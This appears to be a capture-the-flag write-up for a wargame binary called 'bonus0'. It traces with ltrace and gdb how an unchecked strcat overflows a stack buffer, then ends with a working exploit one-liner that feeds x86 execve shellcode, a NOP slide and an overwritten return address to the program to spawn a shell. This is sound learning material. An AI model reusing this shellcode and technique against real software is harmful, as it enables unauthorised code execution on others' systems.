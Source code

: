 When running the program with ltrace, and providing we can get an idea of the functions used (read, strchr, strncpy, strcat). Not let's run it with gdb to inspect it line by line.

First we have 2 functions other than main, p and pp. (see source)
in line <+16> in main, we can see a call to pp() with 0xbffff6c6 as argument (this address is where we will concatenate the strings later), then in pp we call p 2times each time with an addresses in stacks, the p function prints a header " - " then reads our input in a 4096 buf (0xbfffe640), search for '\n' to terminate the string, then copies the first 20 characters of the buffer into the stack address given as first argument (0xbffff678 and 0xbffff68c). Note here that it's important here that p uses the same buffer for both reads.

After the second call to p, we strcypy both strings(technically only the first since the seconds follows it immediately), in the line <+91> we calculate the len of the last string and then we add a space at the end it, then we concatenate the second read again(our final string will be in the form "str1+str2+ +str2" and wil put in the address 0xbffff6c6). since this strcat is unprotected we will take advantage of it to overwrite the return address.

We can display the stackframe informations using info frame, so we can get the return address to overwrite: ebp at 0xbffff6f8, [[eip at 0xbffff6fc]].
we will run our program in gdb with the second string as "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH" to see where exactly the ret address will be overwritten. we get:

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? () . This is where we will redirect the program to our shellcode(after the first C). As for the shellcode we will make use of the ignored part in the read buffer to place it (after the first 20 characters). this will be our inline script.

(python -c 'print "A"*20 + "\x90"*20 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; python -c 'print "B"*9 + "\x80\xe6\xff\xbf" + "B"*7'; cat) | ./bonus0 (and we add extas "\x90" NOP slide for extra safety).